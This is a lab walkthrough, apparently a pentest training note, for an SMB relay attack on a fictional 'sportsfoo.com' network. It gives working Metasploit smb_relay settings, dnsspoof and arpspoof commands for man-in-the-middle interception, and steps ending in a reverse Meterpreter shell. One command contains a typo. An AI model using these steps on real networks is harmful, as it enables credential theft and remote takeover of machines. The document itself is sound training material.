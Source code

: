 ## **Links:**
https://medium.com/@AnisO./active-directory-attacks-smb-relay-attacks-ea7d8cf9a8f8


# **How the attack works:**

![[Pasted image 20250417183112.png | right | 800]]


# **Scenario:**


You are hired by a small company to perform a security assessment. Your customer is **sportsfoo.com** and they want your help to test the security of their environment, according to the scope below:
**The assumptions of this security engagement are:**

1. You are going to do an internal penetration test, where you will be connected directly into their LAN network **172.16.5.0/24**. The scope in this test is only the **172.16.5.0/24** segment
    
2. You are in a production network, so you should not lock any user account by guessing their usernames and passwords
    

The following image represents the LAB environment:
![[Pasted image 20250417192904.png | 900]]


### Scenario Goals:

- Exploitation using **SMB Relay Attack**
- Manipulating network traffic with **dnsspoof**


# **Scenario Tasks:**

Launch an attack using the **SMB Relay Exploit** in a way that once the Client (**172.16.5.5**) issues a **SMB** connection to any hosts on the _**.sportsfoo.com** domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (__172.16.5.10_*).

This is a graphic that represents how this attack should work:

![[Pasted image 20250417183854.png | 500]]

1. Client (Windows 7) issues a **SMB** connection to **`[\\fileserver.sportsfoo.com\finance$]`** at every **30** seconds or so.
    
2. The attacker machine intercepts this request and spoofs the IP address of **`fileserver.sportsfoo.com`**.
    
3. Then the Windows 7 system issues a **SMB** connection to **`[\\172.16.5.101]`** (attacker machine) instead of using the real IP of the **fileserver.sportsfoo.com**.
    
4. The **SMB Relay exploit** is already listening, receives the **SMB** connection, and relays the authentication to the target machine. The payload is a Windows Meterpreter shell.
    
5. Once the exploit authenticates on the target machine, a reverse meterpreter session is provided to the pentester.




# **Requirements:**

- You must be on the same network as the victim(s). This means that if your attacking machine is in a different subnet/broadcast domain, you will be unable to capture the Net-NTLM hash.
- LLMNR must be enabled in the network (enabled by default).
- SMB Signing must be disabled or not required on the target machine. This is the default configuration for most Windows desktop operating systems. Windows Servers will usually have SMB Signing enabled and enforced by default.
- The Net-NTLM hash that you capture must belong to an elevated user on the target machine in order for you to get command execution.

# **Implementation:**

### **<mark style="background: #FF5582A6;">MSF</mark> Module:**

- `exploit/windows/smb/smb_relay`

Keep the default payload as is.
Use ur Attacking machine as `LHOST` and `SRVHOST` 

Set SMBHOST to the Target IP: `set SMBHOST 172.16.5.10`


###### **Now we want to configure DNS Spoofing to redirect the victim to our Kali machine every time there's an SMB connection to any host in the domain `sportsfoo.com` **

![[Pasted image 20250417185741.png | 700]]
By creating this fake /etc/hosts file: 

	echo "172.16.5.101 *.sportsfoo" > dns

>This is an entry that can be added to /hosts file to make the victim believe that if he wants to reach to any subdomain of the `sportsfoo` accessable by `172.16.5.101` ***<mark style="background: #ED7506;">Our ATTACKING IP</mark>*** **<mark style="background: #e74c3c;">MITM</mark>**

Then spoofing dns with the fake DNS file we just created: <mark style="background: #00CDFF82;">use -i with adapter using. And -f for the fake DNS file.</mark>

	dnsspoof -i eth1 -f dns


### **MITM attack**

>We want to Spoof ARP table to make the Client (Win 7 `172.16.5.5`) PC to believe that we are the Default gateway `172.16.5.1` or TARGET  and make his traffic move through us.

##### **Now we want to enable IP Forwarding:**

	echo 1 > /proc/sys/net/ipv4/ip_forward

##### **Now we want to perform ARP Spoofing attack on both sides:**
***First on the Win7 device `172.16.5.5` :***
Specify the using adapter..... `-t` for the target (Win 7 device).... Then the default Gateway

	arpspoof -i eth1 -t 172.16.5.5 172.16.5.1


***Second on the TARGET device `172.16.5.10` :***
Specify the using adapter....... `-t` for the target ()

	aprspoof -i eth1 -t 172.16.5.1 172.16.5.5

> Before we start the ARPSPOOF run the MSF Exploit


![[Pasted image 20250417192251.png]]

We can see here that the someone accessed a file INTERESTING!!!!

and if we look back into <mark style="background: #FF5582A6;">MSF </mark>Module:

![[Pasted image 20250417192440.png]]



##### **Everytime there's an incoming SMB connection there's the SMB relay Module in MetaSploit will grab the NTLM hashes and then automatically uses them to create a meterpreter session or shell...**


